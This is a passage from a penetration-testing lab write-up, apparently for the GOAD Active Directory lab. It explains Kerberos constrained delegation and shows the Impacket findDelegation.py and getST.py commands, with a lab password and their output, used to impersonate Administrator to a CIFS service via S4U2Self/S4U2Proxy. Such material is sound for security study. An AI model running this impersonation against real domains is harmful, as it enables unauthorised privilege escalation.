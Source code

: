 So the Domain Controller will read the SPN list on this account and will decide if the account is allowed to impersonate a user, so he can authenticate against one of these services on behalf of the user.

![Pasted_image_20250113093432](https://github.com/user-attachments/assets/0dfbe42e-1ff1-492f-93e0-1b9c66914308)

### 6.7.2 Exploiting Constrained Delegation

For this I need first to find all the constrained delegation. To do this task, `findDelegation.py` can be used.

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

AccountName   AccountType  DelegationType                      DelegationRightsTo                         SPN Exists
------------  -----------  ----------------------------------  -----------------------------------------  ----------
jon.snow      Person       Constrained w/ Protocol Transition  CIFS/winterfell                            No
jon.snow      Person       Constrained w/ Protocol Transition  CIFS/winterfell.north.sevenkingdoms.local  No
CASTELBLACK$  Computer     Constrained                         HTTP/winterfell                            No
CASTELBLACK$  Computer     Constrained                         HTTP/winterfell.north.sevenkingdoms.local  Yes
```

**With Protocol Transition**

This means that it allows a service to obtain a Kerberos ticket on behalf of a user, even if the user authenticated using a non-Kerberos protocol, such as NTLM authentication.

Now first let's ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy in order to impersonate an admin user to the SPN on the target.

`getST.py` from impacket can be used for this task:

`getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '10.4.10.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'`

And the ticket is saved now:

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for user
[*] Impersonating Administrator
/home/kali/.local/bin/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/home/kali/.local/bin/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache
```